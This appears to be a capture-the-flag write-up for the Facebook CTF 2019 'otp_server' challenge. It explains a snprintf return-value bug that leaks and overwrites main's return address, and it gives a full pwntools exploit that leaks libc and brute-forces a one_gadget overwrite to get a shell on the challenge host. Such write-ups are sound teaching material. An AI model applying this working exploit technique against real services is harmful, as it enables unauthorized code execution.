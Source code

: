 # Facebook CTF 2019 - otp_server

```
void __fastcall encrypt_message(void *main_var_ptr)
{
  int v1; // ST1C_4
  __int64 v2; // ST20_8

  v1 = get_rand_val();
  *(_DWORD *)main_var_ptr = v1;
  v2 = snprintf((char *)main_var_ptr + 4, 0x104uLL, "%s", g_buffer);
  *(_DWORD *)((char *)main_var_ptr + v2 + 4) = v1;
  xor_encrypt(main_var_ptr);
  print_result(main_var_ptr, v2 + 8);
}
```
get_rand_val() reads 4bytes from /dev/urandom, whose values we cannot know.
In main, there is buffer that can store 0x108 bytes. snprintf func has vulnerability.

snprintf returns the length of result string printed at buffer if buffer was large enough.
Though snprintf limits the length of result string by 0x104, it can return the value larger than 0x104.
It's because g_buffer and g_key are adjacent. We send 0x100 non-null bytes in get_message(), then
`sprintf(..., g_buffer)` returns `0x100 + length of g_key`. Eventually this vulnerability enables
reading and writing main func's stackframe.

So we read main func's return address, which is __libc_start_main, calculating libc base address.
Then overwrites the return address with one gadget.
But the value that is overwritten is random value. We should do bruteforce-like attack.

xor_encrypt() encrypts given message with the key, and print_result() prints the encrypted message.
We can know the random value with first four bytes from printed message. So repeatedly call encrypt_message() until the printed values equals
the value that we want to overwrite. We should write 8 bytes(one gadget address, e.g. 0x00007fff12345678).
To make exploit fast, writing was done eight times, one byte at a time.

```
ssize_t set_key()
{
  return read(0, g_key, 0x108uLL);
}

ssize_t get_message()
{
  return read(0, g_buffer, 0x100uLL);
}

.bss:00000000002020E0 ; char g_buffer[256]
.bss:00000000002020E0 g_buffer        db 100h dup(?)
.bss:00000000002020E0                               
.bss:00000000002021E0 ; char g_key[264]
.bss:00000000002021E0 g_key           db 108h dup(?)
```
from pwn import *

bin = ELF('./otp_server')
libc = ELF('./libc-2.27.so')

# context.log_level = 'debug'
one_gadget_offset = 0x10a38c


def SetKey(key):
    conn.sendafter('>>> ', str(1))
    conn.sendafter('Enter key:\n', key)


def Encrypt(msg):
    conn.sendafter('>>> ', str(2))
    conn.sendafter('Enter message to encrypt:\n', msg)


# conn = process('./otp_server', env={'LD_PRELOAD':'./libc-2.27.so'})
# gdb.attach(conn, '')
conn = remote('challenges.fbctf.com', 1338)

SetKey('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
Encrypt('B'*0x100)
conn.recvuntil('-----\n')
conn.recv(0x118)
libc_addr = u64(conn.recv(8)) - 0x21b97
one_gadget_addr = libc_addr + one_gadget_offset

log.info('libc_addr: ' + hex(libc_addr))
log.info('one_gadget_addr: ' + hex(one_gadget_addr))


key = 'AAAAAAAAAAAAAAAAAAA\x00'
for i in range(8):
    key = 'A' + key
    SetKey(key)

    while True:
        find_byte = (one_gadget_addr >> (8 * i)) & 0xff

        Encrypt('B'*0x100)
        conn.recvuntil('-----\n')
        val = u8(conn.recv(1)) ^ 0x41

        if val == find_byte:
            log.info(hex(find_byte)+' matched')
            break

conn.sendafter('>>> ', str(3))
conn.sendline('cd home;cd otp_server;cat flag')
conn.interactive()
```